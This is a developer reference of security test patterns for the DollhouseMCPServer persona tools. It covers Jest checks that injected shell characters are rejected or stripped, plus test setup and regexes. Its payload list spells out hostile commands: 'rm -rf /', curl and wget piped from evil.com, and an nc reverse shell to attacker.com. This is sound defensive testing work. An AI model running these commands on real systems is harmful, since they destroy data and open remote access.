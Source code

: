 # Test Patterns Reference - Security Testing

## Command Injection Test Pattern

### For create_persona tests:
```typescript
// Verify the response
expect(result.content[0].text).toBeDefined();
const responseText = result.content[0].text;

// Check if the persona was rejected for security reasons
if (responseText.includes('Validation Error') || responseText.includes('prohibited content')) {
  // Good - the dangerous payload was rejected
  expect(responseText).toMatch(/Name contains prohibited content|security|validation error/i);
} else {
  // The persona was created with a sanitized name
  const nameMatch = responseText.match(/🎭 \*\*([^*]+)\*\*/);
  expect(nameMatch).toBeTruthy();
  const createdName = nameMatch?.[1] || '';
  
  // The created name should NOT contain the dangerous characters
  expect(createdName).not.toMatch(/[;&|`$()]/);
  
  // If the original payload had dangerous chars, they should be removed
  if (/[;&|`$()]/.test(payload)) {
    expect(createdName).not.toBe(payload);
  }
}
```

### For edit_persona tests:
```typescript
// Check the response
const responseText = result.content[0].text;

if (responseText.includes('Security Validation Failed') || responseText.includes('prohibited content')) {
  // Good - the dangerous payload was rejected
  expect(responseText).toMatch(/prohibited content|security|validation failed/i);
} else {
  // The persona was updated with a sanitized name
  // Extract the actual persona name from the output
  const nameMatch = responseText.match(/🎭 \*\*([^*]+)\*\*/);
  if (nameMatch) {
    const updatedName = nameMatch[1];
    // The updated name should NOT contain the dangerous characters
    expect(updatedName).not.toMatch(/[;&|`$()]/);
    
    // If the original payload had dangerous chars, they should be removed
    if (/[;&|`$()]/.test(payload)) {
      expect(updatedName).not.toBe(payload);
    }
  }
}
```

## Test Environment Setup Pattern

```typescript
describe('MCP Tools Security Tests', () => {
  let server: DollhouseMCPServer;
  let testDir: string;
  let originalCwd: string;
  
  beforeAll(async () => {
    // Save original working directory
    originalCwd = process.cwd();
    
    // Create isolated test environment
    testDir = path.join(originalCwd, '__tests__/temp', `security-test-${Date.now()}`);
    await fs.mkdir(testDir, { recursive: true });
    
    // Create a test package.json to make it look like a safe test directory
    await fs.writeFile(
      path.join(testDir, 'package.json'),
      JSON.stringify({ name: 'test-project', version: '1.0.0' })
    );
    
    // Change to test directory to avoid BackupManager production check
    process.chdir(testDir);
    
    // Set environment to use test directory
    process.env.DOLLHOUSE_PERSONAS_DIR = path.join(testDir, 'personas');
    
    // Initialize server
    server = new DollhouseMCPServer();
  });
  
  afterAll(async () => {
    // Restore original working directory
    process.chdir(originalCwd);
    
    // Cleanup test directory
    await fs.rm(testDir, { recursive: true, force: true });
  });
  
  beforeEach(async () => {
    // Clean up personas directory before each test to avoid conflicts
    const personasDir = path.join(testDir, 'personas');
    if (await fs.access(personasDir).then(() => true).catch(() => false)) {
      await fs.rm(personasDir, { recursive: true, force: true });
    }
    await fs.mkdir(personasDir, { recursive: true });
  });
});
```

## Common Test Payloads

### Command Injection Payloads:
```typescript
const commandInjectionPayloads = [
  '; rm -rf /',                    // Basic command injection
  '&& curl evil.com | sh',         // Command chaining (rejected by ContentValidator)
  '| nc -e /bin/sh attacker.com',  // Reverse shell
  '`touch /tmp/pwned`',            // Backtick execution (rejected)
  '$(wget http://evil.com/shell)', // Command substitution (rejected)
  '\n/bin/sh',                     // Newline injection
  '; echo "pwned" > /etc/passwd',  // File overwrite
  '|| python -c "import os"'       // OR execution
];
```

### Expected Behaviors:
1. **Payloads with curl/wget**: Rejected by ContentValidator as "External command execution"
2. **Payloads with shell metacharacters only**: Sanitized by removing dangerous chars
3. **Command substitution**: Rejected by ContentValidator
4. **Backtick execution**: Rejected by ContentValidator

## Key Regular Expressions

### Dangerous Characters Pattern:
```typescript
/[;&|`$()]/  // Matches shell metacharacters
```

### Persona Name Extraction:
```typescript
/🎭 \*\*([^*]+)\*\*/  // Extracts name between ** after 🎭 emoji
```

### Error Detection:
```typescript
/Name contains prohibited content|security|validation error/i
/prohibited content|security|validation failed/i
```

## Content Size Limits
- MAX_CONTENT_LENGTH: 500,000 bytes (500KB)
- Test with 400KB to stay well within limit
- 512KB will fail the test